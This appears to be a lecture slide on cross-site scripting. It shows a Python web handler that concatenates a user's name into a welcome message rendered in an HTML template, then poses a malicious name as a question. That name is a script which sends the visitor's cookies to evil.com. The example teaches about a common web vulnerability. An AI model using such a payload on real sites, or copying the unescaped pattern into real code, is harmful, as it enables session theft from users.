

# Example
…
user = yield db.users.get_user(username)
welcome_message = "Hi " + user.name + ", thanks for logging in!"
self.render(
    "welcome.html",
    welcome_message=welcome_message
)
…
<body>
<h1>{{ welcome_message }}</h1>
</body>
…

What if user.name is “<script>(new Image()).src="http://evil.com/" + document.cookie</script>”?